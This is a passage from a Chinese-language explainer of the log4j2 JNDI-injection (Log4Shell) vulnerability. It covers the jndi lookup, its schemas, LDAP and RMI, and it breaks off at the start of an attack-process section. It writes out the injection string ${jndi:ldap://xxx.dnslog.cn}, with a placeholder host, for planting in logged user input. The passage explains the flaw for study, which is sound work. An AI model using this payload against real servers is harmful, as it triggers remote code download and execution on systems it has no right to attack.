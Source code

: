 **log4j中除了sys解析器外，还有很多其他类型的解析器。其中，jndi 解析器就是本次漏洞的源头。**

###### **jndi解析器**

jndi 解析器将通过 jdk 获取 jndi 对象，并使用这个 jndi 对象替换原有文本进行打印。 我们将 jndi 对象理解成为一个从程序外部获取的 Java 程序对象就可以了。jdk中提供了多种不同 jndi 对象的获取方式，获取方式可以称为schema，所以正常的包含jndi的日志记录方式如下：

```
logger.info("system propety: ${jndi:schema://url}");
```

其中，schema 是查找jndi对象的方式，jdk中支持 corbname, dns, iiop, iiopname, ldap, ldaps, rmi几种schema。

url是几种不同的schema下jndi的路径。不同的schema，url路径的配置方法不同。常用的schame是ldap，其url写法比较简单：`jndi:ldap://xxx.dnslog.cn`

jdk将从url指定的路径下载一段字节流，并将其反序列化为Java对象，作为jndi返回。反序列化过程中，即会执行字节流中包含的程序。

因此，如果攻击者能够控制日志打印的内容，就可以使目标服务器从攻击者指定的任意url地址下载代码字节流，攻击者在字节流中附带的代码就会在目标服务器上执行。

**攻击者如何控制服务器上记录的日志内容呢？**

大部分web服务程序都会对用户输入进行日志记录。例如：用户访问了哪些url，有哪些关键的输入等，都会被作为参数送到log4j中，我们在这些地方写上 ${jndi:ldap://xxx.dnslog.cn}就可以使web服务从xxx.dnslog.cn下载字节流了。

###### **jndi是什么**

JNDI（Java Naming and Directory Interface，JAVA命名和目录接口）：它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。JNDI下面有很 多目录接口，用于不同的数据源的查找引用。

**JNDI注入主要是用下载远程class，来运行恶意代码。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务。**

###### **ldap服务**

LDAP(轻型目录访问协议)是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问 控制和维护分布式信息的目录信息。

目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈 树状结构组织数据，就好象Linux/Unix系统中的文件目录一样

###### RMI

RMI（远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。

### 0x03攻击过程

log4j2 远程代码执行漏洞大致过程（此处使用RMI，LDAP同理）： 假设有一个Java程序，将用户名信息到了日志中，如下：
